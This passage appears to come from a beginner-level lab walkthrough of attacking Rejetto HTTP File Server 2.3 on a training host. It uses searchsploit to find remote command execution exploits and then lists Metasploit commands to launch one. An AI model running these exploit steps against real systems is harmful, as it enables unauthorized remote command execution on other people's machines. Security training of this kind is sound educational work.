 **Why This Is Important:** HFS version 2.3 is old software. Old software often has security vulnerabilities that we can exploit!

---

### **Step 4: Are There Known Exploits? (Vulnerability Research)**

**What We're Doing:** Searching our database of known exploits to see if anyone has found vulnerabilities in HFS 2.3.

#### **Command Used:**
```bash
searchsploit hfs
```

#### **What Happened:**
```bash
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command E | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command E | windows/remote/39161.py
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

#### **🔥 JACKPOT!**
- **Multiple exploits found** for HFS 2.3.x
- **Remote Command Execution** - This means we can run commands on the target
- **Windows exploits** - Perfect match for our target

**What "Remote Command Execution" means:** We can make the target computer run any command we want, as if we were sitting at its keyboard.

---

### **Step 5: Execute the Attack (Initial Exploitation)**

**What We're Doing:** Using Metasploit to run the exploit against our target.

#### **Commands Used:**
```bash
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit
```

#### **Step-by-Step Breakdown:**

**Command 1: Start Metasploit**
```bash
msfconsole -q
```
- `msfconsole` = Start the Metasploit framework
- `-q` = Quiet mode (skip the banner)
